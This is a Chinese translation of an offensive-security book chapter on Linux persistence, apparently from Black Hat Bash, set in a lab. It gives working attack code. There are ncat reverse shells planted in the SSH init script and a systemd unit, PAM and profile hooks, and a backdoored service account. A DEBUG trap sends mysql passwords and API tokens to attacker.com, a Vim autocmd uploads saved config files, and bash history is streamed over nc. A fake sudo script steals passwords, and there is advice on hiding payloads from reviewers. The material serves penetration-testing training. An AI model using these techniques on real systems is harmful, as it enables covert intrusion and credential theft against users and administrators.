

# 第十章：10 持久性


通过在被攻破的网络和机器上获得*持久性*，我们可以使得我们的访问免受系统重启、网络连接丧失，甚至凭据轮换等环境变化的影响。

获取持久性的方式有很多种。例如，你可以在一个被攻破的服务器上植入代码，以重新建立你的访问。或者，你可以在 GitHub 上的配置文件中发现虚拟私人网络凭证，某人不小心将其推送到公共仓库中，从而远程连接到网络。

Bash 是一种有用的工具，可以帮助获得持久性，在本章中，我们将用它实现几种持久性技巧：修改启动系统服务并与认证模块交互的脚本，挂钩执行的命令来收集凭据，打包和分发恶意脚本，劫持系统实用工具等。

## 持久访问的敌人

许多因素可能会干扰攻击者建立持久访问的能力，其中一些因素可能并不完全在其直接控制之内。以下是一些可能成为障碍并妨碍访问持久性的环境类型和安全实践：

**短暂环境**

短生命周期的环境，如运行容器的环境，可能使得持久性变得具有挑战性。容器编排平台和系统管理员可能会频繁地启动和关闭容器。例如，一个系统在一个慢节奏的周末可能会自动缩减运行中的容器数量，从而减少系统负载。如果我们曾访问过其中一个容器，就有可能丧失访问权限。

**成熟的安全实践**

实施成熟安全实践的组织，在被攻破和保持访问控制方面，通常会是一个更难的目标。一些组织每天都会检查其系统是否有异常，强化基础设施，扫描环境中的潜在入侵尝试，并进行威胁狩猎。此外，许多组织还设有专门的红队来测试安全控制的有效性。这些安全措施使得长期保持访问变得更加困难。

**网络和终端安全控制**

在整个组织中实施精细化的网络和终端安全控制措施，会使得持久化访问变得更加困难。一个成熟的蓝队会制定深度防御的网络策略，以应对任何控制失败的情况。

**资产生命周期管理和库存卫生**

尽管这种情况不常见，但资产退役可能会触发持久访问的丧失。同样，健全的补丁管理可能会修复作为攻击工具的一部分所使用的漏洞软件。理想情况下，你应该找到*控制点*，额外的资产来保持访问，而不是仅仅依赖一个远程访问通道。

## 修改服务配置

维持系统访问的一种方式是创建或修改用于启动系统服务的脚本。为了实现这一点，你可以利用 System V 和 systemd，它们是管理服务并控制进程启动顺序的系统机制。System V 是这两种机制中较老的，但你可能会在渗透测试中遇到这两种工具。让我们在持久性上下文中学习这两种机制。

### System V

System V 的*/etc/init.d*目录包含名为*init 脚本*的 shell 脚本，负责启动服务，无论是网络服务如 SSH，调度服务如 Cron，还是负责设置服务器硬件时钟的服务。但我们也可以通过使用 init 脚本编写自定义恶意逻辑。

> 注意

*向/etc 目录下的 shell 脚本中引入自定义代码通常需要提升权限。此技巧假设你有目标目录的写权限。*

运行 ls 命令列出实验室中任意一台机器上*/etc/init.d*目录中的文件。以下是*p-jumpbox-01*（172.16.10.13）上的输出：

```
# **root@p-jumpbox-01:/# ls -l /etc/init.d/**

total 24
-rwxr-xr-x 1 root root 1071 Feb  5  atd
-rwxr-xr-x 1 root root 3062 Nov 14  cron
-rwxr-xr-x 1 root root 3152 Jan 27  dbus
-rwxr-xr-x 1 root root 1748 Nov 28  hwclock.sh
-rwxr-xr-x 1 root root  959 Feb 25  procps
-rwxr-xr-x 1 root root 4060 May 26 14:44 ssh 
```

目录中的每个文件都影响特定服务的配置。例如，查看*ssh*脚本（清单 10-1）。

```
# **cat /etc/init.d/ssh**

#! /bin/sh
`--snip--`
case "$1" in
  start)
    check_privsep_dir
    check_for_no_start
    check_dev_null
    log_daemon_msg "Starting OpenBSD Secure Shell server" "sshd" || true
    if start-stop-daemon --start --quiet --oknodo --chuid 0:0 --pidfile /run/sshd.pid \
                         --exec /usr/sbin/sshd -- $SSHD_OPTS; then
      log_end_msg 0 || true
    else
      log_end_msg 1 || true
    fi
    ;;
  stop)
    log_daemon_msg "Stopping OpenBSD Secure Shell server" "sshd" || true
    if start-stop-daemon --stop --quiet --oknodo --pidfile /run/sshd.pid \
                         --exec /usr/sbin/sshd; then
      log_end_msg 0 || true
    else
      log_end_msg 1 || true
 fi
    ;;

  reload|force-reload)
    check_for_no_start
    check_config
    log_daemon_msg "Reloading OpenBSD Secure Shell server's configuration" "sshd" || true
    if start-stop-daemon --stop --signal 1 --quiet --oknodo --pidfile /run/sshd.pid \
                         --exec /usr/sbin/sshd; then
      log_end_msg 0 || true
    else
      log_end_msg 1 || true
    fi
    ;;
`--snip--` 
```

清单 10-1：SSH 服务的 init 脚本

如你所见，该脚本的核心使用 case 语句根据一些输入来决定执行哪一组命令。例如，启动、停止和重新加载 SSH 服务时，我们可以通过以下方式调用该脚本：

```
# **/etc/init.d/ssh start**
# **/etc/init.d/ssh stop**
# **/etc/init.d/ssh reload**
# **/etc/init.d/ssh force-reload** 
```

系统配置为在启动时启动 SSH，如果我们能将自定义 bash 逻辑插入脚本中，我们的代码将在每次调用该脚本时执行。因此，如果我们能够从 init 脚本创建反向 shell，我们可以在完整重启后将服务器重新连接到我们的监听器，只要网络可用。

让我们试试这个。通过将反向 shell 有效载荷插入*/etc/init.d/ssh*文件，如清单 10-2 所示。

```
`--snip--`
start)
  check_privsep_dir
  check_for_no_start
  check_dev_null
  log_daemon_msg "Starting OpenBSD Secure Shell server" "sshd" || true
  if start-stop-daemon --start --quiet --oknodo --chuid 0:0 --pidfile
/run/sshd.pid --exec /usr/sbin/sshd -- $SSHD_OPTS; then
    log_end_msg 0 || true
  else
    log_end_msg 1 || true
  fi
 **ncat 172.16.10.1 4444 -e /bin/bash 2> /dev/null &**
  ;;
`--snip--` 
```

清单 10-2：注入到/etc/init.d/ssh 中的反向 shell 有效载荷

接下来，启动监听器以在 Kali 上接收反向 shell。你可以使用 pwncat、Ncat、Netcat 或任何你偏好的监听器。

```
$ **pwncat-cs -l -p 4444**
```

最后，切换回目标系统并运行服务命令以启动 SSH 服务器守护进程：

```
# **service ssh start**
```

你应该看到反向 shell 连接到监听器。

注意，当你引入明显的恶意命令，如反向 shell 有效载荷时，应尽量让这些命令不可见。例如，尝试将监听器的远程 IP 地址拆分成多个变量，使其与脚本的其余部分融合，以免引起任何正在查看该脚本的人的注意。

### systemd

systemd 管理*units*，它们可以表示服务、设备和其他类型的组件。为了实现持久性，我们可以尝试使用 systemd 来注册系统上的一个新服务单元。列表 10-3 展示了一个带有反向 shell 负载的 systemd 服务示例。

```
❶ [Unit]
Description=RevShell
After=network-online.target
❷ Wants=network-online.target

[Service]
❸ ExecStart=**ncat ATTACKER_IP 4444 -e /bin/bash**
❹ Restart=always

[Install]
WantedBy=multi-user.target 
```

列表 10-3：一个恶意 systemd 服务定义文件示例

此服务定义了以下属性：一个新单位❶，网络可用的要求❷，在服务启动时执行反向 shell 到攻击者机器的指令❸，以及如果进程死掉则重新启动的要求❹。

实验室中的容器不运行 systemd，但如果您想尝试此技术，可以在您的 Kali 机器上使用这些命令。要使用该脚本，请在*/etc/system/service*目录下创建一个新的服务文件*revshell.service*。（文件名也是服务名。在真正的攻击中，您可能应该使用更隐秘的名称，以便与环境融合得更好。）然后通过执行 systemctl enable revshell 来启用该服务。

通过 systemctl start revshell 来运行恶意服务。现在，如果机器重新启动，此服务文件应在启动时重新建立连接。

## 钩入可插拔认证模块

*可插拔认证模块（PAMs）* 提供了用于低级认证方案的高级 API，并且应用程序可以使用它们来认证用户。例如，您可以采用外部多因素认证提供者，在登录时提示用户输入代码或插入硬件安全令牌，除了使用传统密码。PAM 配置文件存放在*/etc/pam.d*目录中。

在建立持久性方面，PAM 具有一个有趣的功能：它可以使用*pam_exec.so*库在认证流程的某些点上调用外部脚本。通过修改特定的配置，我们可以使 PAM 在用户登录系统时调用我们自己的脚本，然后执行任何我们想要的操作。

例如，在*/etc/pam.d*下，您会找到一个名为*common-session*的文件。此文件包含所有服务共有的与会话相关的模块。通过向其追加以下行来修改此文件：

```
session     optional     pam_exec.so seteuid /usr/local/bin/pam-helper.sh
```

此行的格式如下：

```
`type - control - module-path - module-arguments`
```

类型是 session，控制是可选的，模块路径是*pam_exec.so*，模块参数设置为 seteuid 和/usr/local/bin/pam-helper.sh。会话类型指的是在用户被允许访问服务之前或之后执行的操作，通常用于诸如日志记录等操作。可选的控制意味着无论此模块成功与否，都不会影响认证或登录流程。模块路径*pam_exec.so*是我们将用于调用外部程序的库，后跟模块参数 seteuid（设置有效用户 ID）和脚本的完整路径。

一旦保存了 PAM 配置文件，*pam_exec.so* 将会在有人登录或退出系统时调用您的脚本（例如，通过运行 su - backup 并提供密码）。我们将为练习 19 提供编写适当持久性脚本的指导。

练习 19：编写恶意 pam_exec Bash 脚本

上一节讲解了如何修改系统的 PAM 配置以调用外部脚本 *pam-helper.sh*。每当用户登录或退出系统时，此脚本将会运行。

构建脚本逻辑以执行您选择的恶意操作。例如，您可以使用 Cron 安排一个持久任务，或者使用 At 安排一个一次性任务，建立与远程机器的反向 shell 连接。

确保将您的脚本保存到 */usr/local/pam-helper.sh* 并赋予可执行权限。您可以在 *p-jumpbox-01* (172.16.10.13) 上测试此练习，因为您已经有其 root 访问权限。不要忘记设置反向 shell 监听器。

## 生成 Rogue SSH 密钥

有 SSH 访问权限的用户可以使用其加密密钥而不是密码登录服务器。当我们生成 SSH 密钥对时，必须将公钥追加到名为 *authorized_keys* 的文件中，该文件位于用户的主目录下。此文件中的任何公钥都被授权对系统进行身份验证，但仅当使用该账户时才有效。

因为可以授权多个密钥进行身份验证，所以使用恶意 SSH 密钥创建账户后门就像向此文件添加另一个公钥那么简单。例如，*nostarch* 用户的 *authorized_keys* 文件可能如下所示，假设他们的主目录是 */home/nostarch*：

```
$ **cat /home/nostarch/.ssh/authorized_keys**

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDB9Rp0Lol7dmnNxiMSlcWXWp5Ruf4XLwo2fgR7ZD
djMNHIJtbmTXz4WLM34XagYaDFpqsghbE+kYM9HatmK7KY9HDTqC96fX0TW8ky8UChdSvB7oiQjEei
CRuiqWqarPja6S8ko0LjdAe65n59kT2ClFCKP5XlGgkv/zMpLIfQxyrI4LFGun/Pi+Nef0DfNioBdZ
lUAmWeOjHyJ+xdpHMdhJSHGuzNx0KRnzZ83mvhgXZAGcr7Pz1NMGxXhjx2TeQzV7Yek+Z2QY6LMFpQ
e0c8AAvr/bI7+nj0wb27fhM66sOJp+VL+E4vg2t6TaGmrnq5JOG7lbIpXU/BU2KZaSx2E9bDzq5eOi
AQc8j+WE6Y1Y7r/0pbZ5DuQHoowCzS6r9nX9NU0kI4W9mLQ1vx3mgOUu4eEDF579UX4CIj7nju8ebg
wHhBaNdaYfmAz5TYgO4P92oqUNoyEm/eyndghpGWkn1U9yuzzCjiQqxpOV6V6Dw0DAyviHta5pYAjX
CtsYM= 
```

要生成新的 SSH 密钥，请在您的 Kali 机器上运行以下命令：

```
$ **ssh-keygen -t rsa -C ""**
```

我们使用 -t（类型）来定义密钥的类型（在本例中为 RSA），并使用 -C（注释）并附空值。如果不使用 -C 标志并提供空值，ssh-keygen 将在密钥的末尾附加计算机的主机名作为注释，这是标识该密钥所属机器的一种方式。按照向导操作，确保在此示例中不设置密码。应该会创建两个文件：*id_rsa*（私钥）和 *id_rsa.pub*（公钥）。

您可以以多种方式将公钥添加到 *authorized_keys*。尝试在已作为 backup 用户登录到 *p-jumpbox-01* 机器（172.16.10.13）上执行这些步骤。

首先，您可以简单地使用文本编辑器创建或修改 *~/.ssh/authorized_keys* 并粘贴公钥内容：

```
$ **mkdir ~/.ssh && chmod 700 ~/.ssh**
$ **touch ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys** 
```

要远程添加密钥，您可以使用 SSH 客户端进行身份验证并运行命令。请注意，这将需要您提供已经成功攻破的账户的密码。

```
$ **cat id_rsa.pub | ssh backup@172.16.10.13 'cat >> .ssh/authorized_keys'**
```

ssh-copy-id 命令使将公钥复制到服务器变得更加简单。它应该会自动将其写入正确的位置：

```
$ **ssh-copy-id -i ~/.ssh/id_rsa.pub backup@172.16.10.13**
```

在提示时，为 backup 用户输入密码。

添加密钥后，请尝试使用私有 RSA 密钥登录服务器：

```
$ **ssh backup@172.16.10.13 -i ~/.ssh/id_rsa**
```

你应该注意到，系统没有提示你输入用户账户密码。如果在创建密钥时提供了密码短语，使用该密钥进行身份验证时将需要提供此密码短语。

## 改用默认系统账户

默认情况下，系统带有除 root 之外的内置账户，如 nobody、sys、sync、bin、games 和 man。我们称这些账户为 *服务账户*，因为它们用于运行特定任务。将这些任务分配到不同账户中实施最小特权模型，使系统能够在特定用户上下文中运行应用程序。

这些账户不是用于用户登录的，如果你仔细查看任何实验机器（甚至是 Kali）上的 */etc/passwd*，你会发现它们通常没有设置 shell 或密码。这些常见的加固措施确保在受到攻击时不能执行系统任务，如作业调度。

但是，如果你已经入侵了一台机器并获得了 root 账户访问权限（或者具有创建或修改用户权限的 sudo 用户），你可以采取以下措施之一来制作一个能够融入环境的后门机制：

+   创建一个看起来类似服务账户的新账户

+   向现有服务账户添加 shell 和密码进行修改

让我们将一个服务账户转换为一个后门账户，以便我们持续访问系统。我们将瞄准 *p-jumpbox-01* 机器（172.16.10.13），在那里我们拥有 root 访问权限。

我们将给 lp 账户加入后门，通常用于管理进纸服务。您可以在 */etc/passwd* 中看到此账户及其默认 shell：

```
$ **grep lp /etc/passwd**

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
```

你可以看到，这个账户的 */usr/sbin/nologin* shell ；这不允许我们登录。让我们使用 usermod 并传递 -s（shell）参数来修改默认 shell：

```
# **usermod -s /bin/bash lp**
```

我们建议通过运行 man usermod 了解更多关于 usermod 命令的信息。接下来，使用 passwd 命令设置密码，并在提示时输入密码：

```
# **passwd lp**
```

最后，通过 lp 账户尝试 SSH 登录服务器：

```
$ **ssh lp@172.16.10.13**
```

现在，您应该能够通过这个服务账户远程连接到机器上，并且该账户现在应该有一个有效的 shell。如果将来丢失 root 访问权限或者 root 账户被禁用远程登录，您可以将其用作后门账户。

## 污染 Bash 环境文件

在 第二章 中，我们讨论了像 *~/.bashrc* 这样的文件，它们允许我们定义变量、别名和脚本来自定义环境。除了用户家目录中的这些文件之外，还有系统范围的 *.bashrc* 和 *.profile* 文件，分别位于 */etc/bash.bashrc* 或 */etc/bashrc* 和 */etc/profile*。

当 bash 作为交互式登录 shell 被调用时，它会在读取用户级环境文件（如 *~/.bash_profile*、*~/bash_login* 和 *~/.profile*）之前读取 */etc/profile*（如果该文件存在）。类似地，当 bash 作为非登录交互式 shell 被调用时，它会在本地文件之前读取全局的 *bashrc* 文件。

同样，*/etc/profile* 会查找 */etc/profile.d* 目录下的文件。如果存在文件，它将使用 . 命令来加载（或导入）它们。你可以通过运行 `cat /etc/profile` 来查看这一行为：

```
$ **cat /etc/profile**

# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

`--snip--`
❶ if [-d /etc/profile.d]; then
❷ for i in /etc/profile.d/*.sh; do
  ❸ if [-r $i]; then
    ❹ . $i
    fi
  done
  unset i
fi 
```

如你所见，一个 if 条件 ❶ 检查 */etc/profile.d* 是否是一个目录。接着，一个 for 循环迭代 */etc/profile.d* 下所有扩展名为 *.sh* 的文件 ❷，并使用 -r 检查每个文件是否具有读取权限 ❸。最后，脚本使用 . 命令 ❹ 导入该文件。

如果我们能够将恶意代码写入 */etc/profile* 等文件或 */etc/profile.d* 等目录中，我们就可以调用在我们控制下运行的自定义代码的 shell。如果你已经侵入了特定的用户帐户，你也可以尝试将恶意代码植入该用户的 shell 环境文件，这可能会导致有趣的结果，并且不需要 root 权限。然而，影响将仅限于该用户。

让我们尝试通过引入自定义代码篡改用户的配置文件，使得用户执行命令后立即运行该代码。以备份用户身份登录 *p-jumpbox-01*（172.16.10.13），并创建一个 *.profile* 文件：

```
$ **touch .profile**
```

接下来，将 示例 10-4 中的脚本写入文件并保存。

```
#!/bin/bash

❶ hook() {
  echo "You executed ${BASH_COMMAND}"
}

❷ trap 'hook' DEBUG 
```

示例 10-4：操作系统命令钩子

首先，我们创建一个名为 hook 的函数 ❶。这个函数只做一件事，即打印 You executed ${BASH_COMMAND} 到标准输出，其中 ${BASH_COMMAND} 是一个环境变量，保存着即将执行的命令的名称。

在 ❷ 处，我们使用 trap 命令，后面跟着函数名（hook()）和 DEBUG 关键字，这是一种 trap 接受的 *信号规范（sigspec）*。信号规范可以是以下值之一：EXIT、DEBUG、RETURN 或 ERR；DEBUG 确保我们捕获每个执行的命令。（在练习 20 中，我们将使用这个信号规范来窃取敏感数据。）

最后，这是源文件：

```
$ **source .profile**
```

现在运行一些命令并观察输出。在以下示例中，我们运行了 `id` 和 `ps -ef`：

```
backup@p-jumpbox-01:~$ **id**
You executed id
uid=34(backup) gid=34(backup) groups=34(backup)

backup@p-jumpbox-01:~$ **ps -ef**
You executed ps -ef
UID  PID  PPID  C STIME TTY     TIME CMD
root   1     0  0 01:31 ?   00:00:00 /bin/sh -c service ssh restart  &&  service cron restar...
root  16     1  0 01:31 ?   00:00:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups 
```

如你所见，我们的主动钩子打印了在该命令输出之前执行的命令。

练习 20：通过篡改配置文件拦截数据

在本练习中，你有一个明确的恶意目标：编写一个脚本，捕捉任何在被攻破的系统上执行的可能包含敏感信息的命令，然后将其传输到远程服务器。如果你不确定哪些命令可能值得拦截，我们有几个例子可以参考：

+   包含 API 密钥参数的网页请求

+   传递给常用工具的命令行密码，例如数据库管理工具（如 MySQL 或 Redis）

+   诸如电子邮件或信用卡号等 PII 通过命令行传递

此外，以下是一些高级提示，帮助你开始：

+   运行网络搜索以查找与你感兴趣的敏感数据匹配的字符串模式。例如，寻找可以接受密码甚至信用卡号的命令。

+   确定你要拦截的特定命令；避免拦截每个命令，以使你的数据收集更精确。

+   设计你的脚本，以便在发送数据到网络时安全失败。如果在传输过程中发生错误，请捕获错误以防信息泄露给不知情的用户。

第 10-5 节 提供了一个解决方案，针对使用 curl 或 mysql 命令传输凭证的情况。

profile_hook.sh

```
#!/bin/bash

hook() {
❶ case "${BASH_COMMAND}" in
  ❷ mysql*)
    ❸ if echo "${BASH_COMMAND}" | grep -- "-p\|--password"; then
        curl https://attacker.com \
              -H "Content-Type:application/json" \
              -d "{\"command\":\"${BASH_COMMAND}\"}" \
              --max-time 3 \
              --connect-timeout 3 \
              -s &> /dev/null
      fi
     ;;
  ❹ curl*)
    if echo "${BASH_COMMAND}" | grep -ie "token" \
                                     -ie "apikey" \
                                     -ie "api_token" \
                                     -ie "bearer" \
                                   ❺ -ie "authorization"; then
      curl https://attacker.com \
              -H "Content-Type:application/json" \
              -d "{\"command\":\"${BASH_COMMAND}\"}" \
              --max-time 3 \
              --connect-timeout 3 \
              -s &> /dev/null
    fi
   ;;
  esac
}

❻ trap 'hook' DEBUG 
```

第 10-5 节：截取命令和窃取凭证

我们创建一个名为 hook() 的函数，其中使用一个 case 语句 ❶。该语句将尝试将 BASH_COMMAND 变量与两个模式进行匹配：mysql* ❷ 和 curl* ❹。这些模式将匹配任何以这些字符串开头的内容。这应该能够识别使用 mysql 命令连接数据库和使用 curl 命令进行 HTTP 请求的情况。

接下来，如果命令涉及调用 mysql 客户端，我们将检查命令行是否包含密码，使用 -p 或 --password 参数 ❸。在这种情况下，密码将属于数据库。如果找到匹配项，我们将向 *https://attacker.com* 发送一个 HTTP POST 请求，其中包含原始命令的 JSON 负载。

在 ❺ 处，我们使用 curl 进行类似的操作。我们搜索诸如 token、apikey、api_token、bearer 或 authorization 等字符串，以捕获命令行传递的任何 API 密钥。这些凭证可能属于内部 Web 面板或某种管理界面。搜索时不区分大小写（-i）。如果找到这样的模式，我们将发送一个请求，其中包含命令和凭证，到攻击者的网站上，通过 HTTP POST 方法。

最后，我们使用 trap 来使用 DEBUG sigspec 类型 ❻ 捕获 hook() 函数。

> 注意

*你可以从* [`github.com/dolevf/Black-Hat-Bash/blob/master/ch10`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch10) *下载本章的脚本*。

## 凭证窃取

如果你能够保持对用户凭证数据或甚至用户键盘操作的访问，你可以保持对整个系统的访问。例如，如果用户重置他们的密码，并且我们恰好拦截到执行此操作的命令，即使凭证已经被更改，我们也可以保持访问（至少直到有人发现并停用我们的机制或完全清除受感染的系统）。

我们可以通过多种方式捕获凭证信息。一种方法是通过特洛伊木马化命令，例如用恶意二进制文件替换它们，或者通过向其中注入恶意逻辑来破坏它们的执行流程。在本节中，我们将实现一些常见系统管理员工具中的恶意逻辑。我们还将从 bash 历史文件中提取凭证并通过网络发送这些信息。

### 挂钩文本编辑器

*Vim* 是一种常见的文本编辑器应用程序，通常可以在服务器上找到。它也是许多开发人员和系统管理员首选的文本编辑应用程序，因此值得单独介绍。

> 注意

*如果你从未使用过 Vim，我们强烈建议你熟悉它。它是一个功能强大的编辑器，拥有许多附加功能，例如宏、脚本和插件系统。*

如果你可以访问系统上的一个或多个用户，并且可以修改他们主目录中的配置文件，你可以利用 Vim 的 *autocmd* 功能，这是一个在特定编辑器事件发生时能够执行某些 shell 命令的自动化系统。我们通过使用 *~/.vimrc* 文件来定义 autocmd 操作，Vim 通常会在用户的主目录中搜索该文件。当文本编辑器打开时，它会读取该文件并查找任何特殊的配置和指令。

autocmd 事件可能在文件写入或读取时、文件打开或关闭时，以及编辑器本身打开或关闭时等情况下发生。表 10-1 列出了几个关键的 autocmd 事件。

表 10-1：有趣的 autocmd 事件

| 事件名称 | 描述 |
| --- | --- |
| ShellCmdPost | 执行完 shell 命令后 |
| BufWritePost | 写入整个缓冲区后 |
| BufWipeout | 在删除缓冲区之前 |
| StdinReadPost | 从 stdin 读取到缓冲区后 |

BufWritePost 事件允许我们在编辑器写入缓冲区中的内容后执行某些操作。这意味着如果用户打开了一个文件并进行了写入操作，autocmd 将执行我们的命令。

让我们利用这种行为。首先，将以下内容写入某个用户主目录下的 *~/.vimrc* 文件中。你可以使用实验室中的任何一台被攻破的机器，例如 *p-jumpbox-01*（172.16.10.13），使用备份或 *root* 用户：

```
autocmd BufWritePost *.conf,*.config :silent !timeout 3 curl -m 5 -s
http://172.16.10.1:8080 -o /dev/null --data-binary @<afile> & 
```

让我们分析一下发生了什么。首先，我们使用 autocmd 关键字定义一个 autocmd 指令。接下来，我们指定事件名称 BufWritePost，然后跟随两个文件扩展名，**.conf** 和 **.config**。这将确保无论何时写入带有这两个扩展名的文件，命令都会触发。

我们使用`:silent`来抑制任何命令消息或错误。最后，我们定义一个以`!`开头的命令，后跟感兴趣的 shell 命令的语法。在这个例子中，我们使用 curl 向 172.16.10.1:8080 发出 HTTP POST 请求，这将运行我们 Kali 机器上的监听器。我们传递`-m`（最大时间）并设定为 5，以确保整个操作不超过五秒。然后我们传递`-s`（静默）参数以防止文本输出，并通过使用`-o /dev/null`将标准输出重定向到*/dev/null*。我们还传递`--data-binary @<afile>`来上传文件。autocmd <afile>变量表示 Vim 正在编辑的实际文件。

总结来说，当用户写入一个名为*credentials.conf*的文件时，Vim 将执行一个 curl 命令，秘密地将该文件发送到远程监听器。将此文件保存为*~/.vimrc*。接着，通过使用任何 TCP 监听器在 Kali 机器上打开一个远程监听器：

```
$ **nc -lkvp 8080**

listening on [any] 8080 ... 
```

最后，使用 vi 或 vim.tiny 命令（因为 vi 在实验室中是 vim.tiny 的符号链接），打开一个文件并写入内容：

```
$ **vim.tiny /tmp/credentials.conf**

USER=nostarch
PASS=press123 
```

当你使用 Vim 将文件保存到磁盘时，你应该注意到文件内容已被发送到监听器：

```
listening on [any] 8080 ...
172.16.10.13: inverse host lookup failed: Unknown host
connect to [172.16.10.1] from (UNKNOWN) [172.16.10.13] 42538
POST / HTTP/1.1
Host: 172.16.10.1:8080
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 29
Content-Type: application/x-www-form-urlencoded

**USER=nostarch**
**PASS=press123** 
```

如果你想泄露所有文件，无论其扩展名如何，这个 autocmd 命令应该能完成任务：

```
autocmd BufWritePost * :silent !timeout 1 curl -m 5 -s -o /dev/null
http://172.16.10.1:8080 --data-binary @<afile> 
```

然而，如果文件特别大，上传可能需要很长时间。这可能会让用户察觉到某些不正当行为，因为写入文件时会导致明显的延迟。让我们让我们的钩子更聪明一点（列表 10-6）。

```
autocmd BufWritePost *.conf,*.config :silent !if grep "PASSWORD\|SECRET\|APIKEY" <afile>;
then timeout 3 curl -m 5 -s -o /dev/null http://172.16.10.1:8080
--data-binary @<afile>; fi 
```

列表 10-6: 使用 autocmd 条件执行命令

现在，命令将只查找包含凭证的文件，比如密码或 API 密钥。

### 流式传输已执行的命令

在第八章中，我们讨论了历史文件，比如*~/.bash_history*。历史文件记录了用户执行的命令，并允许访问、审计和重放之前执行的命令。

每当新命令被执行时，历史文件就会更新，因此将历史文件流式传输到网络上的监听器，以提供命令执行事件的实时记录，这可能会很有趣，从而将其传输到我们控制的服务器。这些命令可能揭示用户在服务器上执行了什么操作，并捕获他们通过命令行输入的任何凭据。（注意，*~/.bash_history*只是一个示例；你可能会发现通过此方法流式传输其他文件在将来会更有用。）

让我们设置几个 bash 命令，将最后写入的命令通过网络发送到远程监听器。此技术假设你有权限访问用户的主目录，并能修改*~/.profile*文件，或者有能力写入系统范围的*/etc/profile*文件。

在*p-jumpbox-01*（172.16.10.13）上，使用*root*用户，在*/etc/profile.d*目录下创建一个名为*99-stream.sh*的文件，内容参考列表 10-7。

```
❶ export PROMPT_COMMAND="history -a; history -r; $PROMPT_COMMAND"

❷ if ! pgrep -u "$(whoami)" nc &> /dev/null; then
❸ tail -F ~/.bash_history | nc 172.16.10.1 4444 &> /dev/null &
fi 
```

列表 10-7：通过网络流式传输历史文件

在 ❶ 处，我们导出 PROMPT_COMMAND 变量，以便在执行期间使其对后续命令可用。我们将此变量设置为一个 bash 命令，该命令将在终端显示提示之前执行。您会注意到我们将 history 命令传递两次作为其值：一次使用 -a（追加）参数，第二次使用 -r（读取）参数。PROMPT_COMMAND 的值将在显示提示之前执行，允许我们在执行命令时追加到历史文件并从中读取。

我们通过使用 pgrep ❷ 检查 Netcat（nc）进程是否在运行。我们使用 -u（用户）与 whoami 结合，将进程列表限制为仅列出当前用户运行的 nc 进程。如果 pgrep 返回退出码 1（未找到进程），则没有反向 shell 从此用户连接，因此我们可以建立一个新的连接。这有助于我们避免从同一用户打开多个连接。

我们使用 tail 命令读取历史文件的末尾，并将其管道传输到 nc ❸。-F（跟随）参数跟踪文件的末尾，因此任何新内容都会被发送到网络。

最后，我们将在 Kali 上使用 socat，以便在多个用户同时连接并执行命令时，能够接收多个连接而不关闭服务器端的连接：

```
$ **socat TCP4-LISTEN:4444,fork STDOUT**
```

打开另一个终端并作为用户 backup（先前被入侵密码为 backup）登录到 *p-jumpbox-01*（172.16.10.13）。然后输入几个命令：

```
$ **ssh backup@172.16.10.13**
backup@172.16.10.13's password:

backup@p-jumpbox-01:~$ **id**
uid=34(backup) gid=34(backup) groups=34(backup)

backup@p-jumpbox-01:~$ **whoami**
backup

backup@p-jumpbox-01:~$ **uptime**
02:21:50 up 14 days, 12:32,  0 user,  load average: 0.60, 0.40, 0.23 
```

观察 socat 输出的结果：

```
$ **socat TCP4-LISTEN:4444,fork STDOUT**

id
whoami
uptime 
```

您可以调整此技术来流式传输任何有价值的文件，如应用程序或系统日志文件，在渗透测试期间。

### 锻造一个不那么无辜的 sudo

在第九章中，我们利用 sudo 命令的配置错误来提升我们的权限。但我们还可以通过另一种方式来损害 sudo：通过替换为我们自己的恶意版本，然后在用户输入密码运行命令时收集其密码。

此方法的主要缺点在于，当用户向 sudo 提供正确的密码时，它会缓存凭据一段时间（例如 15 分钟），后续命令将无需重新输入密码。负责缓存持续时间的设置称为 timestamp_timeout。

尽管有缓存，如果我们能拦截用户第一次输入密码时的执行，我们可能能够泄漏他们的密码。让我们通过这样一个例子来详细说明。在这种情况下，我们假设我们可以访问并修改用户的环境，以及修改像 *~/.bashrc* 这样的文件。

我们将创建一个伪造的 sudo 脚本。然后，我们将修改被入侵用户的环境，通过别名执行伪造版本调用 sudo，使用 curl 发送他们的密码到网络，并继续正常的 sudo 执行流程，以避免引起怀疑。

让我们开始吧！您可以在 *p-jumpbox-01* (172.16.10.13) 上的备份用户帐户中植入虚假 sudo 脚本来执行此场景。在某个可写位置创建此虚假 sudo 文件：

```
$ **touch /tmp/sudo && chmod +x /tmp/sudo**
```

接下来，通过向受损用户的 *~/.bashrc* 环境文件添加一行来创建别名：

```
alias sudo='/tmp/sudo'
```

最后，将脚本填充到 列表 10-8 中的代码中。

```
#!/bin/bash
ARGS="$@"

leak_over_http() {
  local encoded_password
❶ encoded_password=$(echo "${1}" | base64 | sed s'/[=+/]//'g)
  curl -m 5 -s -o /dev/null "http://172.16.10.1:8080/${encoded_password}"
}

❷ stty -echo
❸ read -r -p "[sudo] password for $(whoami): " sudopassw

leak_over_http "${sudopassw}"
❹ stty echo
echo "${sudopassw}" | /usr/bin/sudo -p "" -S -k ${ARGS} 
```

列表 10-8：一个虚假 sudo 脚本

